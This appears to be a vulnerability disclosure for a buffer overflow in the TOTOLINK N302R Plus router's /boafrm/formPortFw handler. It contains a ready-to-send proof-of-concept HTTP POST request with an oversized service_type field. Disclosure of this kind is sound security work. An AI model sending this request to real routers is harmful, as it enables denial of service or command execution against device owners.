

# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** N302R Plus

**Affected firmware version:** V3.4.0-B20201028

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/156/ids/36.html)）

# Overview

A serious buffer overflow vulnerability was found on the TOTOLINK N302R Plus router. An attacker can send a malicious HTTP POST request through the route /boafrm/formPortFw to perform a denial of service attack or even execute arbitrary commands.

# Vulnerability details

The length of the copy is not checked, which leads to overflow.



# POC

```
POST /boafrm/formPortFw HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 583
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/smart_qos.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=33191248f26bbf43ce0e32f58edg5eaf&addPortFw=1&service_type=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

